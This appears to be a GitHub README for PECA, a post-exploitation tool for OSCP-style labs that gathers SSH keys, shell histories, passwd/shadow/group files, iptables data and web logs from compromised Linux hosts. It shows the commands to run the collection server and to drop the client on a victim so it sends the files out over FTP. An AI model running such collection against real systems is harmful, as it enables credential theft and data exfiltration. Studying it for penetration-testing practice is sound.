 # PECA
Post Exploitation Collection Agent

##### Requirments
    To run the server you will need to have pyftpdlib installed
     
Note: For educational use only
```
            ____  _______________
           / __ \/ ____/ ____/   |
          / /_/ / __/ / /   / /| |
         / ____/ /___/ /___/ ___ |
        /_/   /_____/\____/_/  |_|
    Post Exploitation Collection Agent 
```
##### Intro:
    Peca was designed to help collect key files from linux 
    machines after exploitation has occured. Originally
    designed to help with data gathering during the OSCP

##### Features:

	* Collects ssh keys from root and home directories
	* Collects .bash* from root and home directories
	* Collects passwd/shadow/group files
	* Collects IPTable data
  * Collects webservice logs from popular services

##### Use:

Simple start the server *Sudo is needed for port 21*
```
    ./server.py --ip <iphere> --port 21 --user user --password user
```

Then drop the peca script on the client
```
    ./peca.py --server <iphere> --port 21 --user user --password user
```

##### Technical:
```
	Communicates utilizing the ftp protocol.
```
